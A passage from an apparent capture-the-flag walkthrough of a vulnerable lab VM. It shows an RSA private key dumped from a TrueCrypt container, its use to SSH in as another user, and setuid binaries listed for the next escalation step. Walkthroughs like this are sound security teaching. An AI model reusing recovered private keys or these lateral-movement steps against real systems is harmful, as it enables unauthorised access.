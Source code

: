 ```bash george TrueCrypt container
icHPzFRt39KRHK1VLxXOD/jdKRN3Tk0odH1kNahOuFC2F5T+aqdlC/RAGwxnTDBe
AFPFlns83GaPYlIt05DZsdGftG7mITkNfUVS5AIyeedshU4OyPXu5bGgUgbtars4
GdttJ33Tm5hO+n3E93sW7XMKG4v4po+1Fu0OwNQNpaRo6gVqK7AZHNPxBRW7K4Zc
w2d0EXehAoGBAOQgtqb5QVyhiCdT53xjZTMHH74ApWRpsoLtu/LaZnQV0v/dzEIv
jei58v/PusXsSwOQeb4p2obOReQFbYG48vCiywwMbeOeqH2d69HYatHmxPXngKS3
6trus/pHuDJosFw1qhgVo9ao0o8IH6cveHidmwvzKfiphgM3yCXF9jyxAoGBAN6L
awHXmHQCsCq//UbHbfuaBScJOpaagKP1BIskl5RDaQ/U/DzSpxju0ldedX7HYVFW
Rk6NQQ6QiXIC/5D7Xj+tcR2EFI+Tt9xp6dE/UlxpUL1h9QCBfmdw0CT9WSwJEGF7
R+D18trKcb/NkYdJV8ZpaT00rLzyBx5MY/FZbYY/AoGBALrCwWXfR5BjOckgmrGt
2cq1uVnew4h6M8eWgzklbZz5xPzuAuvobKAro3GkCb9BXIQ1gkWZlCqqsnMjsmvy
EwnH7L0Xa9teJ4h3gfkQ2Rqwd2ztstanLyE/LJ7omjbCmCdVU8RV6wSwv3iTaP6B
EXqFZMqarzDA8FKwFy49bAJxAoGBALkXBYG7uW1LSw/TLCjw9zVaTUzBLTxS9gjn
YMcFQRir1Da5sqw3m4huIP1Pb7NoyjTm54SvkNs3NUlg2wPPPP0DGOAumRctCa9F
W5WP78UyRlesoCOyj9oihsss9zxbsYcSDJ86j6iO1Xpr08zMIDfCNigUplJjja4S
ZNE3ypLrAoGAbp+vBcqQRfnXWfmcdnHYFbwgWbokPSe2fScajWiyvcg4/6gL1e50
rpO3RTOREUD02pBbyG4LDFv7x/5niqASL0tS8/0xWDBDj5QmD9UTmMd5hsMbj8Lw
qJA0ErZEjIE9+jXYLbsTsB8tRTsqMqBfCCovHXAjy0h5B6j500PfImM=
-----END RSA PRIVATE KEY-----
george@hell:/media/truecrypt1$
```

So, a rsa private key. A wild shot in the dark sais this is the private key for one of the other users as per the `/etc/passwd`. I saved the key to a file on my Kali Linux box and attempted to SSH in as `bazza`, specifying the private key to use:

```bash ssh access as Bazza
root@kali:~# ssh bazza@192.168.56.102 -i truecrypt_id_rsa
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 21 18:52:50 2014 from 192.168.56.1
$ id
uid=1004(bazza) gid=1004(bazza) groups=1004(bazza)
$
```

## becoming oj
`bazza` had 2 interesting files in hes home directory:

```bash Bazza Home
bazza@hell:~$ ls -lh
total 20K
-rw-r--r-- 1 root root        109 Jul  6 18:32 barrebas.txt
-r-xr-sr-x 1 oj   developers 6.1K Jul  6 18:39 part1
-r-sr-xr-x 1 oj   oj         5.2K Jul  6 18:34 part2
```
